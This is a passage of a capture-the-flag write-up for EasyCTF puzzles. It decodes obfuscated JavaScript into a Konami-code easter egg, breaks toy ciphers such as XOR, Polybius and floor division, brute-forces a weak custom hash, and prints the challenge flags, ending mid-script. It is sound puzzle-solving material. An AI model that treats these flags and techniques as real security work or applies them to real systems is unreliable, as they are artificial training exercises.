	  +(""+1/0)[1]+(""+!1)[3]+(""+!0)[0]+(""+!0)[1]+(""+!0)[2]+(""+{})[5]+(""+!0)[0]+(""+{})[1]+(""+!0)[1]](__(105)+__(102)+__(32)+__(40)+__(119)+__(105)+__(110)+__(100)
	  +__(111)+__(119)+__(46)+__(97)+__(100)+__(100)+__(69)+__(118)+__(101)+__(110)+__(116)+__(76)+__(105)+__(115)+__(116)+__(101)+__(110)+__(101)+__(114)+__(41)+__(32)
	  +__(123)+__(10)+__(32)+__(32)+__(32)+__(32)+__(118)+__(97)+__(114)+__(32)+__(105)+__(110)+__(100)+__(101)+__(120)+__(32)+__(61)+__(32)+__(48)+__(59)+__(10)+__(32)+__(32)
	  +__(32)+__(32)+__(118)+__(97)+__(114)+__(32)+__(107)+__(111)+__(110)+__(97)+__(109)+__(105)+__(32)+__(61)+__(32)+__(91)+__(51)+__(56)+__(44)+__(51)+__(56)+__(44)+__(52)
	  +__(48)+__(44)+__(52)+__(48)+__(44)+__(51)+__(55)+__(44)+__(51)+__(57)+__(44)+__(51)+__(55)+__(44)+__(51)+__(57)+__(44)+__(54)+__(54)+__(44)+__(54)+__(53)+__(44)+__(49)
	  +__(51)+__(93)+__(59)+__(10)+__(10)+__(32)+__(32)+__(32)+__(32)+__(119)+__(105)+__(110)+__(100)+__(111)+__(119)+__(46)+__(97)+__(100)+__(100)+__(69)+__(118)+__(101)
	  +__(110)+__(116)+__(76)+__(105)+__(115)+__(116)+__(101)+__(110)+__(101)+__(114)+__(40)+__(34)+__(107)+__(101)+__(121)+__(100)+__(111)+__(119)+__(110)+__(34)+__(44)
	  +__(32)+__(102)+__(117)+__(110)+__(99)+__(116)+__(105)+__(111)+__(110)+__(40)+__(101)+__(41)+__(123)+__(10)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)
	  +__(105)+__(102)+__(32)+__(40)+__(101)+__(46)+__(107)+__(101)+__(121)+__(67)+__(111)+__(100)+__(101)+__(32)+__(61)+__(61)+__(61)+__(32)+__(107)+__(111)+__(110)+__(97)
	  +__(109)+__(105)+__(91)+__(105)+__(110)+__(100)+__(101)+__(120)+__(93)+__(41)+__(10)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(123)+__(10)+__(32)+__(32)
	  +__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(105)+__(110)+__(100)+__(101)+__(120)+__(43)+__(43)+__(59)+__(32)+__(47)+__(47)+__(118)+__(97)
	  +__(108)+__(105)+__(100)+__(32)+__(107)+__(101)+__(121)+__(32)+__(97)+__(116)+__(32)+__(116)+__(104)+__(101)+__(32)+__(118)+__(97)+__(108)+__(105)+__(100)+__(32)+__(112)
	  +__(111)+__(105)+__(110)+__(116)+__(10)+__(10)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(105)+__(102)+__(32)+__(40)+__(105)
	  +__(110)+__(100)+__(101)+__(120)+__(32)+__(61)+__(61)+__(32)+__(107)+__(111)+__(110)+__(97)+__(109)+__(105)+__(46)+__(108)+__(101)+__(110)+__(103)+__(116)+__(104)+__(41)
	  +__(10)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(123)+__(10)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)
	  +__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(100)+__(111)+__(99)+__(117)+__(109)+__(101)+__(110)+__(116)+__(46)+__(103)+__(101)+__(116)+__(69)+__(108)+__(101)
	  +__(109)+__(101)+__(110)+__(116)+__(66)+__(121)+__(73)+__(100)+__(40)+__(34)+__(118)+__(97)+__(108)+__(101)+__(114)+__(105)+__(101)+__(34)+__(41)+__(46)+__(105)+__(110)
	  +__(110)+__(101)+__(114)+__(72)+__(84)+__(77)+__(76)+__(61)+__(34)+__(48)+__(49)+__(49)+__(49)+__(49)+__(48)+__(49)+__(49)+__(48)+__(49)+__(49)+__(48)+__(49)+__(49)
	  +__(48)+__(49)+__(48)+__(49)+__(49)+__(48)+__(49)+__(48)+__(48)+__(49)+__(48)+__(49)+__(49)+__(49)+__(48)+__(48)+__(49)+__(49)+__(48)+__(49)+__(49)+__(49)+__(48)+__(48)
	  +__(49)+__(49)+__(48)+__(49)+__(49)+__(48)+__(49)+__(48)+__(48)+__(49)+__(48)+__(49)+__(49)+__(48)+__(49)+__(49)+__(49)+__(49)+__(48)+__(49)+__(49)+__(48)+__(49)+__(49)
	  +__(49)+__(48)+__(48)+__(49)+__(49)+__(49)+__(48)+__(48)+__(49)+__(49)+__(48)+__(49)+__(49)+__(49)+__(48)+__(49)+__(48)+__(49)+__(48)+__(49)+__(49)+__(48)+__(48)+__(48)
	  +__(49)+__(49)+__(48)+__(49)+__(49)+__(48)+__(48)+__(48)+__(49)+__(49)+__(48)+__(49)+__(49)+__(48)+__(48)+__(49)+__(48)+__(49)+__(48)+__(49)+__(49)+__(49)+__(48)+__(48)
	  +__(49)+__(49)+__(48)+__(49)+__(49)+__(49)+__(48)+__(48)+__(49)+__(49)+__(48)+__(49)+__(49)+__(49)+__(49)+__(49)+__(48)+__(49)+__(34)+__(59)+__(10)+__(32)+__(32)+__(32)
	  +__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(125)+__(10)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(125)+__(32)+__(101)+__(108)
	  +__(115)+__(101)+__(32)+__(123)+__(10)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(47)+__(47)+__(32)+__(105)+__(110)+__(99)
	  +__(111)+__(114)+__(114)+__(101)+__(99)+__(116)+__(32)+__(99)+__(111)+__(100)+__(101)+__(32)+__(114)+__(101)+__(115)+__(116)+__(97)+__(114)+__(116)+__(10)+__(32)+__(32)
	  +__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(105)+__(110)+__(100)+__(101)+__(120)+__(32)+__(61)+__(32)+__(48)+__(59)+__(10)+__(32)+__(32)
	  +__(32)+__(32)+__(32)+__(32)+__(32)+__(32)+__(125)+__(10)+__(32)+__(32)+__(32)+__(125)+__(41)+__(59)+__(10)+__(125))();
	</script>

```

The last section is clearly ascii, we translate this

```
105 102 32 40 119 105 110 100 111 119 46 97 100 100 69 118 101 110 116 76 105 115 116 101 110 101 114 41 32 123 10 32 32 32 32 118 97 114 32 105 110 100 101 120 32 61 32 48 59 10 32 32 32 32 118 97 114 32 107 111 110 97 109 105 32 61 32 91 51 56 44 51 56 44 52 48 44 52 48 44 51 55 44 51 57 44 51 55 44 51 57 44 54 54 44 54 53 44 49 51 93 59 10 10 32 32 32 32 119 105 110 100 111 119 46 97 100 100 69 118 101 110 116 76 105 115 116 101 110 101 114 40 34 107 101 121 100 111 119 110 34 44 32 102 117 110 99 116 105 111 110 40 101 41 123 10 32 32 32 32 32 32 32 32 105 102 32 40 101 46 107 101 121 67 111 100 101 32 61 61 61 32 107 111 110 97 109 105 91 105 110 100 101 120 93 41 10 32 32 32 32 32 32 32 32 123 10 32 32 32 32 32 32 32 32 32 32 32 32 105 110 100 101 120 43 43 59 32 47 47 118 97 108 105 100 32 107 101 121 32 97 116 32 116 104 101 32 118 97 108 105 100 32 112 111 105 110 116 10 10 32 32 32 32 32 32 32 32 32 32 32 32 105 102 32 40 105 110 100 101 120 32 61 61 32 107 111 110 97 109 105 46 108 101 110 103 116 104 41 10 32 32 32 32 32 32 32 32 32 32 32 32 123 10 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 100 111 99 117 109 101 110 116 46 103 101 116 69 108 101 109 101 110 116 66 121 73 100 40 34 118 97 108 101 114 105 101 34 41 46 105 110 110 101 114 72 84 77 76 61 34 48 49 49 49 49 48 49 49 48 49 49 48 49 49 48 49 48 49 49 48 49 48 48 49 48 49 49 49 48 48 49 49 48 49 49 49 48 48 49 49 48 49 49 48 49 48 48 49 48 49 49 48 49 49 49 49 48 49 49 48 49 49 49 48 48 49 49 49 48 48 49 49 48 49 49 49 48 49 48 49 48 49 49 48 48 48 49 49 48 49 49 48 48 48 49 49 48 49 49 48 48 49 48 49 48 49 49 49 48 48 49 49 48 49 49 49 48 48 49 49 48 49 49 49 49 49 48 49 34 59 10 32 32 32 32 32 32 32 32 32 32 32 32 125 10 32 32 32 32 32 32 32 32 125 32 101 108 115 101 32 123 10 32 32 32 32 32 32 32 32 32 32 32 32 47 47 32 105 110 99 111 114 114 101 99 116 32 99 111 100 101 32 114 101 115 116 97 114 116 10 32 32 32 32 32 32 32 32 32 32 32 32 105 110 100 101 120 32 61 32 48 59 10 32 32 32 32 32 32 32 32 125 10 32 32 32 125 41 59 10 125
```


```javascript
if (window.addEventListener) {
    var index = 0;
    var konami = [38,38,40,40,37,39,37,39,66,65,13];

    window.addEventListener("keydown", function(e){
        if (e.keyCode === konami[index])
        {
            index++; //valid key at the valid point

            if (index == konami.length)
            {
                document.getElementById("valerie").innerHTML="01111011011011010110100101110011011100110110100101101111011011100111001101110101011000110110001101100101011100110111001101111101";
            }
        } else {
            // incorrect code restart
            index = 0;
        }
   });
}
```

The binary  in that snippet translates to 

```
{missionsuccess}
```

Which is our flag

**Flag**  

```
easyctf{missionsuccess}
```


# Rest in Pepperoni-Pizzas
**Challenge**  
I gave my little sister a flag, but she cut it up and hid the pieces! Retrieve it here: [ripinpizzas.pdf](writeupfiles/ripinpizzas.pdf).

**Solution**
The pdf contains an image but it is covered with a filled textarea. We use extractpdf.com to extract the different component in the pdf, and find the hidden image:




**Flag**  

```
easyctf{can_y0u_put_411_the_pieces_2gether?}

e
asyc 
her
he_pieces
es_
ctf{can
_2get
here
you_put_
```

# Oink

**Challenge**  

Use the programming interface to solve this problem.

Pig Latin is a "secret" language in which English words are changed to sound foreign. Its rules are pretty simple:

If the English word begins with a vowel, add "yay" to the end.
If the English word begins with a consonant, move the first letter to the end and then add "ay".
For example, "Apples are Delicious" becomes "Applesyay areyay eliciousDay". Note: if you know a version of Pig Latin that uses a variation of rules different from the above rules, please use the above rules for this problem.

Your job is to translate English input to Pig Latin output. For this exercise, keep capitalized letters capitalized, even when they are moved.

ID: piglatin1
Input: A sentence in English.
Output: The translation in Pig Latin.

Read the input from a file called piglatin1.in that's in the current working directory, and then write your output to a file called piglatin1.out

**Solution**

```python
words=open("piglatin1.in","r").readline().rstrip().split()
piglatin=[]
for w in words:
   if w[0] in ['a', 'e', 'i', 'o', 'u', 'A', 'E', 'I', 'O', 'U']:
      piglatin.append(w+'yay')
   else:
      piglatin.append(w[1:]+w[0]+'ay')

open("piglatin1.out","w").write(' '.join(piglatin)+'\n')
```

**Flag**  
```
easyctf{atinl4y_easyyay_3noughyay_orfay_ayay_1gpay!}
```

# Oink Oink

**Challenge**  

Use the programming interface to solve this problem.

Pig Latin is a "secret" language in which English words are changed to sound foreign. Its rules are pretty simple:

    If the English word begins with a vowel, add "yay" to the end.
    If the English word begins with a consonant, move the first letter to the end and then add "ay".

For example, "Apples are Delicious" becomes "Applesyay areyay eliciousDay". Note: if you know a version of Pig Latin that uses a variation of rules different from the above rules, please use the above rules for this problem.

Your job is to translate English input to Pig Latin output. For this exercise, keep capitalized letters capitalized, even when they are moved.

ID: piglatin1
Input: A sentence in English.
Output: The translation in Pig Latin.

Read the input from a file called piglatin1.in that's in the current working directory, and then write your output to a file called piglatin1.out

**Solution**  

```python
words = open('piglatin2.in', 'r').readline().rstrip().split()
english = []

for w in words:
  if w[-3:] == 'yay': 
    english.append(w[:-3])
  else:
    if w[0].isupper():
      english.append(chr(ord(w[-3:-2])-32) + w[:-3].lower())
    else:
      english.append(w[-3:-2] + w[:-3])
open('piglatin2.out', 'w').write(' '.join(english)+'\n')

```

**Flag**

```
easyctf{th0se_pesky_capit4ls_were_a_pa1n,_weren't_they?}
```

# iSpy 

**Challenge**

We intercepted some suspicious network activity. We think that the enemy has been exchanging important data. Can you help us figure out what it is? You can find a copy of the file here

[ispy.pcapng](writeupfiles/ispy.pcapng

**Solution**

Open with wireshark, extract http objects, one of the extracted files was this image:




**Flag**

```
easyctf{pcap_fun!??}
```

# 49 Shades of Gray
**Challenge**  
We only have 49 shades of gray 

000000 to F5F5F5... there's one shade missing! Find the hex value of the missing shade. Pound sign optional.

[Image](writeupfiles/shades.png)


**Solution**  

They tell us there are 50 shades of gray, ranging from 0 to 245 (0xF5). This would mean there is a shade of gray made from every pixel value divisible by 5 between those two values (#000000 #0a0a0a #0f0f0f etc) ..except one. We find out which one with a small 


```python
from PIL import Image

img=Image.open("shades.png")

pixels=img.load()
(width,height)=img.size

for i in xrange (0,250,5):
  found = 0
  for w in range (0,width):
    for h in range (0,height):
       if pixels[w,h][0] == i:
         found=1
         break       
  if not found:
      print "shade not found: "+str(i)
      
```

when we run this we find

``
shade not found: 80
``

which in hex is 50, so the missing shade of gray is #505050, which we submit as our flag

**Flag** 
```
#505050
```

# Same Difference

**Challenge**  

Solve this problem by connecting to the EasyCTF shell, either in your browser or through some other TTY.

We've noticed that a list of passwords has been modified. Compare the original master_copy.txt to the suspicious.txt and tell us what the password was changed to! The files are on the shell server at /problems/same_difference.

This can be solved only with the tools available in the shell. No scripting languages are required.

**Solution**  

```
$ ll /problems/same_difference
total 832
drwxr-xr-x  2 root root   4096 Nov  4 23:50 ./
drwxr-x--x 10 root root   4096 Nov  4 23:56 ../
-rw-r--r--  1 root root 420000 Nov  4 23:50 master_copy.txt
-rw-r--r--  1 root root 420000 Nov  4 23:50 suspicious.txt

$ wc -l master_copy.txt
10000 master_copy.txt

$ diff master_copy.txt suspicious.txt
8834c8834
< easyctf{17c85a939e5ee1b0b0e00ed7187d11f7}
---
> easyctf{60a57b3974029aa012e66b05f122748b}

```

**Flag**  

```
easyctf{60a57b3974029aa012e66b05f122748b}
```

# I <3 SLEEPING

**Challenge**  

We received this string, but I have no idea what it means! 

```
3845281945283805284526053525260547380516453748164748478317454508
```

Hint: ARGH I CAN'T SLEEP PEOPLE KEEP STEALING MY ZZZZs . . . NO MORE ZZZs /cries

P.S. You're overthinking it.

P.P.S. Blocks of 2

Final hint: sqrt(ABCDEFGHIJKLMNOPQRSTUVWXY). Where'd my Z's go?


**Solution**

The "blocks of 2"  hint combined with the hint that a letter is "missing", leads us to suspect a Polybius cipher. Instead of comining I and J into a single letter, we simply omit the Z. 
Also it seems like the first in each duo of letters is always 0-5, while the second is always 5-10, so this leads to the following Polybius square:

```
  0 1 2 3 4
5 a b c d e
6 f g h i j
7 k l m n o
8 p q r s t
9 u v w x y
```

Using this to translate we getegid

```
38 45 28 19 45 28 38 05 28 45 26 05 35 25 26 05 47 38 05 16 45 37 48 16 47 48 47 83 17 45 45 08
s  e  r  v  e  r  s  a  r  e  h  a  d  c  h  a  o  s  a  g  e  n  t  g  o  t  o  s  l  e  e  p 

servers are had chaosagent go to sleep 
```

**Flag**  

```
serversarehadchaosagentgotosleep 
```

# Coordinates

**Challenge**  

We found this text lying around, but apparently it doesn't do anything. Want to give it a shot?

```
[(22, 25), (14, 9), (11, 14), (2, 13), (23, 4), (12, 27), (15, 0), (23, 28), (22, 10), (21, 21), (20, 15), (20, 5), (23, 1), (24, 8), (13, 0), (5, 27), (19, 4), (0, 20), (20, 13), (15, 11), (27, 18), (23, 23), (15, 8), (27, 12), (21, 0), (1, 26), (16, 0), (8, 17), (18, 2), (14, 1), (13, 14), (3, 27), (19, 10), (7, 16), (6, 15), (17, 3), (9, 13), (27, 16), (16, 28), (15, 20), (19, 14), (18, 13), (8, 15), (8, 25), (18, 8), (21, 19), (3, 12), (8, 26), (20, 8), (11, 22), (7, 21), (9, 17), (17, 18), (19, 8), (21, 8), (28, 16), (23, 15), (19, 3), (23, 25), (11, 25), (19, 2), (27, 7), (17, 1), (14, 12), (3, 23), (17, 26), (9, 10), (10, 22), (16, 8), (3, 8), (24, 18), (2, 27), (4, 27), (27, 14), (21, 3), (6, 12), (7, 2), (23, 26), (14, 2), (27, 10), (18, 20), (26, 25), (3, 20), (5, 2), (24, 5), (9, 21), (2, 21), (23, 22), (12, 22), (2, 1), (7, 5), (16, 12), (11, 15), (21, 22), (12, 4), (7, 4), (21, 7), (21, 1), (28, 20), (5, 14), (11, 13), (3, 7), (4, 1), (1, 24), (19, 13), (19, 26), (0, 12), (10, 28), (23, 18), (10, 10), (26, 20), (11, 21), (14, 20), (27, 5), (19, 19), (11, 1), (9, 4), (25, 7), (4, 10), (25, 16), (10, 4), (14, 17), (10, 17), (5, 16), (28, 12), (17, 17), (7, 28), (8, 7), (21, 23), (26, 28), (26, 19), (0, 17), (8, 11), (28, 11), (1, 20), (21, 18), (7, 0), (0, 16), (12, 14), (17, 5), (10, 18), (9, 19), (26, 9), (12, 3), (18, 24), (23, 3), (18, 22), (27, 2), (2, 8), (24, 15), (21, 12), (9, 26), (7, 14), (9, 11), (21, 11), (19, 6), (26, 18), (13, 23), (21, 27), (18, 26), (24, 1), (23, 5), (22, 7), (1, 27), (1, 4), (7, 26), (18, 9), (27, 4), (19, 18), (23, 2), (23, 19), (17, 9), (28, 24), (12, 1), (27, 22), (14, 11), (20, 0), (13, 9), (3, 5), (0, 14), (5, 9), (12, 11), (10, 26), (1, 2), (27, 3), (13, 7), (27, 15), (10, 25), (7, 27), (25, 22), (26, 1), (10, 13), (27, 11), (6, 9), (11, 4), (2, 7), (16, 16), (11, 9), (12, 8), (2, 17), (16, 22), (9, 2), (11, 17), (23, 11), (7, 15), (16, 23), (24, 14), (1, 12), (5, 5), (5, 11), (25, 1), (4, 15), (18, 11), (11, 12), (4, 9), (26, 7), (13, 25), (25, 5), (22, 16), (15, 23), (9, 12), (20, 4), (27, 19), (0, 11), (5, 23), (22, 21), (12, 2), (6, 21), (26, 24), (24, 26), (13, 22), (7, 24), (28, 7), (5, 7), (22, 23), (16, 14), (25, 18), (26, 11), (10, 7), (9, 5), (19, 28), (9, 6), (1, 21), (10, 24), (0, 15), (18, 16), (7, 17), (19, 0), (14, 14), (26, 15), (8, 22), (27, 17), (23, 21), (16, 26), (4, 23), (18, 28), (7, 22), (5, 25), (1, 3), (22, 8), (15, 5), (22, 27), (14, 22), (23, 10), (5, 15), (7, 18), (14, 19), (20, 26), (13, 1), (14, 27), (18, 12), (9, 18), (16, 10), (28, 28), (20, 10), (5, 1), (23, 7), (26, 23), (0, 7), (9, 8), (26, 12), (2, 9), (5, 19), (10, 8), (13, 3), (5, 3), (11, 20), (12, 19), (1, 13), (26, 5), (9, 20), (26, 16), (1, 15), (10, 19), (20, 25), (15, 1), (10, 15), (22, 12), (1, 14), (4, 14), (20, 9), (5, 24), (2, 19), (15, 3), (25, 24), (21, 6), (19, 11), (15, 12), (2, 10), (19, 17), (21, 26), (6, 11), (13, 17), (24, 16), (8, 18), (24, 19), (7, 19), (12, 21), (6, 7), (21, 5), (1, 1), (8, 8), (1, 5), (5, 21), (11, 7), (17, 12), (7, 6), (12, 16), (18, 17), (2, 23), (7, 7), (10, 5), (5, 26), (16, 11), (3, 21), (16, 3), (15, 25), (5, 4), (9, 23), (1, 11), (15, 16), (1, 25), (21, 4), (2, 14), (12, 24), (9, 14), (17, 4), (17, 14), (27, 25), (11, 0), (24, 25), (19, 15), (20, 17), (4, 5), (7, 8), (13, 15), (2, 15), (7, 23), (8, 4), (6, 13), (11, 23), (12, 13), (16, 7), (27, 21), (13, 6), (7, 11), (15, 6), (1, 9), (1, 23), (7, 3), (25, 21), (16, 2), (7, 1), (8, 12), (6, 19), (2, 5), (10, 3), (25, 17), (27, 1), (14, 28), (21, 2), (26, 27), (4, 21), (3, 1), (14, 25), (10, 20), (26, 10), (11, 28)]
```

**Solution**  

The files was named qr.txt, so probably this gives the pixels to set to white or black to obtain a qr code


```python
from PIL import Image

coords=[(22, 25), (14, 9), (11, 14), (2, 13), (23, 4), (12, 27), (15, 0), (23, 28), (22, 10), (21, 21), (20, 15), (20, 5), (23, 1), (24, 8), (13, 0), (5, 27), (19, 4), (0, 20), (20, 13), (15, 11), (27, 18), (23, 23), (15, 8), (27, 12), (21, 0), (1, 26), (16, 0), (8, 17), (18, 2), (14, 1), (13, 14), (3, 27), (19, 10), (7, 16), (6, 15), (17, 3), (9, 13), (27, 16), (16, 28), (15, 20), (19, 14), (18, 13), (8, 15), (8, 25), (18, 8), (21, 19), (3, 12), (8, 26), (20, 8), (11, 22), (7, 21), (9, 17), (17, 18), (19, 8), (21, 8), (28, 16), (23, 15), (19, 3), (23, 25), (11, 25), (19, 2), (27, 7), (17, 1), (14, 12), (3, 23), (17, 26), (9, 10), (10, 22), (16, 8), (3, 8), (24, 18), (2, 27), (4, 27), (27, 14), (21, 3), (6, 12), (7, 2), (23, 26), (14, 2), (27, 10), (18, 20), (26, 25), (3, 20), (5, 2), (24, 5), (9, 21), (2, 21), (23, 22), (12, 22), (2, 1), (7, 5), (16, 12), (11, 15), (21, 22), (12, 4), (7, 4), (21, 7), (21, 1), (28, 20), (5, 14), (11, 13), (3, 7), (4, 1), (1, 24), (19, 13), (19, 26), (0, 12), (10, 28), (23, 18), (10, 10), (26, 20), (11, 21), (14, 20), (27, 5), (19, 19), (11, 1), (9, 4), (25, 7), (4, 10), (25, 16), (10, 4), (14, 17), (10, 17), (5, 16), (28, 12), (17, 17), (7, 28), (8, 7), (21, 23), (26, 28), (26, 19), (0, 17), (8, 11), (28, 11), (1, 20), (21, 18), (7, 0), (0, 16), (12, 14), (17, 5), (10, 18), (9, 19), (26, 9), (12, 3), (18, 24), (23, 3), (18, 22), (27, 2), (2, 8), (24, 15), (21, 12), (9, 26), (7, 14), (9, 11), (21, 11), (19, 6), (26, 18), (13, 23), (21, 27), (18, 26), (24, 1), (23, 5), (22, 7), (1, 27), (1, 4), (7, 26), (18, 9), (27, 4), (19, 18), (23, 2), (23, 19), (17, 9), (28, 24), (12, 1), (27, 22), (14, 11), (20, 0), (13, 9), (3, 5), (0, 14), (5, 9), (12, 11), (10, 26), (1, 2), (27, 3), (13, 7), (27, 15), (10, 25), (7, 27), (25, 22), (26, 1), (10, 13), (27, 11), (6, 9), (11, 4), (2, 7), (16, 16), (11, 9), (12, 8), (2, 17), (16, 22), (9, 2), (11, 17), (23, 11), (7, 15), (16, 23), (24, 14), (1, 12), (5, 5), (5, 11), (25, 1), (4, 15), (18, 11), (11, 12), (4, 9), (26, 7), (13, 25), (25, 5), (22, 16), (15, 23), (9, 12), (20, 4), (27, 19), (0, 11), (5, 23), (22, 21), (12, 2), (6, 21), (26, 24), (24, 26), (13, 22), (7, 24), (28, 7), (5, 7), (22, 23), (16, 14), (25, 18), (26, 11), (10, 7), (9, 5), (19, 28), (9, 6), (1, 21), (10, 24), (0, 15), (18, 16), (7, 17), (19, 0), (14, 14), (26, 15), (8, 22), (27, 17), (23, 21), (16, 26), (4, 23), (18, 28), (7, 22), (5, 25), (1, 3), (22, 8), (15, 5), (22, 27), (14, 22), (23, 10), (5, 15), (7, 18), (14, 19), (20, 26), (13, 1), (14, 27), (18, 12), (9, 18), (16, 10), (28, 28), (20, 10), (5, 1), (23, 7), (26, 23), (0, 7), (9, 8), (26, 12), (2, 9), (5, 19), (10, 8), (13, 3), (5, 3), (11, 20), (12, 19), (1, 13), (26, 5), (9, 20), (26, 16), (1, 15), (10, 19), (20, 25), (15, 1), (10, 15), (22, 12), (1, 14), (4, 14), (20, 9), (5, 24), (2, 19), (15, 3), (25, 24), (21, 6), (19, 11), (15, 12), (2, 10), (19, 17), (21, 26), (6, 11), (13, 17), (24, 16), (8, 18), (24, 19), (7, 19), (12, 21), (6, 7), (21, 5), (1, 1), (8, 8), (1, 5), (5, 21), (11, 7), (17, 12), (7, 6), (12, 16), (18, 17), (2, 23), (7, 7), (10, 5), (5, 26), (16, 11), (3, 21), (16, 3), (15, 25), (5, 4), (9, 23), (1, 11), (15, 16), (1, 25), (21, 4), (2, 14), (12, 24), (9, 14), (17, 4), (17, 14), (27, 25), (11, 0), (24, 25), (19, 15), (20, 17), (4, 5), (7, 8), (13, 15), (2, 15), (7, 23), (8, 4), (6, 13), (11, 23), (12, 13), (16, 7), (27, 21), (13, 6), (7, 11), (15, 6), (1, 9), (1, 23), (7, 3), (25, 21), (16, 2), (7, 1), (8, 12), (6, 19), (2, 5), (10, 3), (25, 17), (27, 1), (14, 28), (21, 2), (26, 27), (4, 21), (3, 1), (14, 25), (10, 20), (26, 10), (11, 28)]

# create new image to which we will write hidden image
outimg = Image.new( 'RGB', (29,29), "black") 
pixels_out = outimg.load() 

for c in coords:
    pixels_out[c]=(255,255,255)    


outimg = outimg.resize((100,100))
outimg.save("qrout.png","png")

```

gives the following output:


**Flag**  

```
easyctf{bet_y0u_read_that_wiki_page}
```

# XOR

**Challenge**  

This string has been encrypted using XOR!

```
message = " $6<&1#><*\x1a!$2\x22\x1a,\x1a- $7!\x1a<*0\x1a),. !\x1a=*78"
```

**Solution**  

We perform all possible decryptions given that this is a simple XOR encryption and see if we get anything resembling a flag.

```python
ct = " $6<&1#><*\x1a!$2\x22\x1a,\x1a- $7!\x1a<*0\x1a),. !\x1a=*78"

for x in range (0,255):
    pt = ''
    for c in ct:
        pt += chr(ord(c) ^ x );
    print pt+" (x="+str(x)+")"

```

In this snippet of the output we see that when every character was XORed with value 69, we got the flag:

```
[..]
d`rxbugzxn^e`vf^h^id`se^xnt^mhjde^yns| (x=68)
easyctf{yo_dawg_i_heard_you_liked_xor} (x=69)
fbpz`wexzl\gbtd\j\kfbqg\zlv\ojhfg\{lq~ (x=70)
gcq{avdy{m]fcue]k]jgcpf]{mw]nkigf]zmp (x=71)
[..]
```

**Flag**  
```
easyctf{yo_dawg_i_heard_you_liked_xor}

```


# Who is this god?

**Challenge**  

My friend Mich uses this nice tulip as her profile pic because she likes historical stuff. Did I mention that one of the EasyCTF developers worships her as a god?


**Solution**  

When you sharpen the image, a flag becomes faintly visible in the top left corner


**Flag**  

```
easyctf{all_hail_michy}
```


# Pixels
**Challenge**  

[mystery1](writeupfiles/mystery1) - [mystery2](writeupfiles/mystery2)

mystery1:  



mystery2:  


**Solution**  

Subtract pixel values from each other (and clean up output little bit more) reveals the flag:

```python
from PIL import Image

img1=Image.open("mystery1.png")
img2=Image.open("mystery2.png")

pixels1=img1.load()
pixels2=img2.load()

(width,height)=img1.size

# create new image to which we will write hidden image
outimg = Image.new( 'RGB', (width,height), "white") 
pixels_out = outimg.load() 

for w in range (0,width):
  for h in range (0,height):
     r=pixels1[w,h][0]-pixels2[w,h][0]
     g=pixels1[w,h][1]-pixels2[w,h][1]
     b=pixels1[w,h][2]-pixels2[w,h][2]
     
     if (r,g,b)==(0,0,0) or (r>250 and g >250 and b >250)  :
         pixels_out[w,h] = (255,255,255)
     else:
         pixels_out[w,h] = (0,0,0)
         
     
     
outimg.save("outimpg.png","png")
```


**Flag**  

```
easyctf{pretty_pixel_math}
```

# Hardwood Floors
**Challenge**  

Our intelligence tells us that this function was used to encrypt a message. They also managed to capture a spy while in the field. Unfortunately, our interrogators only managed to find the ciphertext of a message on his phone. Can you help us recover the secret message?

function:

```python
message = "<redacted>"
key = 3
encrypted = ' '.join([str(ord(c)//key) for c in message])
print(encrypted)
```

ciphertext:
```
27 39 33 34 10 36 32 33 35 10 37 34 10 38 35 34 37 38 15 15 15 10 33 32 38 40 33 38 34 41 34 36 16 16 38 31 33 16 39 35 38 35 16 36 41
```

**Solution**  

All characters were integer-divided by 3 during encryption. So for every ciphertext character, there are threee possible plaintext characters (x3, x3+1 x3+2)

```python
floors=open("floors.txt").readline().rstrip().split()

for fl in floors:
    val=int(fl)*3
    print chr(val)+"-"+chr(val+1)+"-"+chr(val+2)

```

output:

```
Q-R-S
u-v-w
c-d-e
f-g-h
-- 
l-m-n
`-a-b
c-d-e
i-j-k
-- 
o-p-q
f-g-h
-- 
r-s-t
i-j-k
f-g-h
o-p-q
r-s-t
--.-/
--.-/
--.-/
-- 
c-d-e
`-a-b
r-s-t
x-y-z
c-d-e
r-s-t
f-g-h
{-|-}
f-g-h
l-m-n
0-1-2
0-1-2
r-s-t
]-^-_
c-d-e
0-1-2
u-v-w
i-j-k
r-s-t
i-j-k
0-1-2
l-m-n
{-|-}
```
For each position, choose one of the letters to find the flag, 

```
Such lack of rigor... easyctf{fl00r_d1visi0n}
```

**Flag**  
```
easyctf{fl00r_d1visi0n}
```
# H4sh3D

**Challenge**  
We discovered that Varsos's server uses a fairly insecure hash function to check passwords. The hashed password is c9b5af9864efa933, and the hashing function can be found here.

```python
def compute_hash(uinput):
	if len(uinput) > 32: return
	blen = 32
	n = blen - len(uinput) % blen
	if n == 0:
		n = blen
	pad = chr(n)
	ninput = uinput + pad * n
	r = ""
	for i in range(0, blen, 4):
		s = ninput[i:i+4]
		h = 0
		for j in range(len(s)):
			h = (h << 4) + ord(s[j])
			g = h & 4026531840
			if not(g == 0):
				h ^= g >> 24
			h &= ~g
		r += chr(h % 256)
	h = ""
	for c in r:
		h += c.encode("hex")
	return h
```


**Solution**  

It is not trivial to reverse the problem, but we see that each group of four characters is processed independently to give two hex character in the final hash, so we simply try four-letter strings until we find all parts of the final hash

```python
import itertools
def compute_hash(uinput):
	if len(uinput) > 32: return
	blen = 32
	n = blen - len(uinput) % blen
	if n == 0:
		n = blen
	pad = chr(n)
	ninput = uinput + pad * n
	r = ""
	for i in range(0, blen, 4):
		s = ninput[i:i+4]
		h = 0
		for j in range(len(s)):
			h = (h << 4) + ord(s[j])
			g = h & 4026531840
			if not(g == 0):
				h ^= g >> 24
			h &= ~g
